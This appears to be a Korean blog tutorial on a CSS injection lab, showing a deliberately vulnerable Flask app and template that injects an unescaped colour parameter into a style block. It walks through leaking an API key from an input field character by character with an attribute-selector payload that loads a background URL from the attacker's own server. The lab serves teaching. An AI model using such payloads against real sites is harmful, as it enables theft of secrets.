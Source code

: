 ```yaml
---
title: Ex ㅂ- CSS Injection 
date: 2023-09-08
author: glasses96
categories: [WEB]
tags: [WEB, CSS Injection]
pin: true
math: true
mermaid: true
---
```


> **[CSS Injection](/posts/32) 실습을 해봅시다..**
{: .prompt-info }

---

## Code
Code는 app.py, index.html 코드가 존재합니다.

코드는 단순히 `color` 변수를 받아 index.html의 `h1 태그의 색상`을 변경합니다.
index.html에는 input으로 api_key가 존재합니다.

```py
from flask import Flask, render_template, request

app = Flask(__name__)
api_key = "S3CR3T_K3Y"

@app.route('/')
def index():
    color = request.args.get('color', 'black')
    return render_template('index.html', color=color, api_key=api_key,)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8888)

```

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSS Injection Example</title>
</head>
<style>
    h1 {
            color: \{\{color | safe\}\}-->;
    }
</style>
<body>
    <h1>Hi CSS Injection</h1>
    <input value="\{\{ api_key \}\}">
</body>
</html>
```
-----

## How get api_key??
<span style="color:#9999FF">background: url</span>과 <span style="color:#9999FF">input\[attr^=value\]</span>을 이용하여 가지고 올 수 있습니다.

### Step 1. Find Point

color를 변경하여 색상이 변경되는 것을 확인할 수 있습니다.

![background_url](/assets/post/33/1.png)


### Step 2. IP Ping Back

<span style="color:#9999FF">background: url()</span> 으로 내 서버에 접근이 되는지 확인합니다.

![background_url](/assets/post/33/2.png)


### Step 3. Input Value Data Send Myserver

<span style="color:#9999FF">red;} input[value^=S]{background: url(myserver);}</span>

위와 같이 입력하면 input attr의 value가 S와 일치 하는 경우 myserver에 접근하게 됩니다.  
만약 틀릴 경우는 myserver에 접근하지 않습니다.

### Step 4. Repeat Step 3

BruteForce으로 하나씩 넣으면서 응답이 오는 값을 추가해줍니다.
이를 계속 반복합니다.

![background_url](/assets/post/33/3.png)


> 단 \<script\> 안의 데이터는 가지고 올 수 없습니다.
{: .prompt-warning }


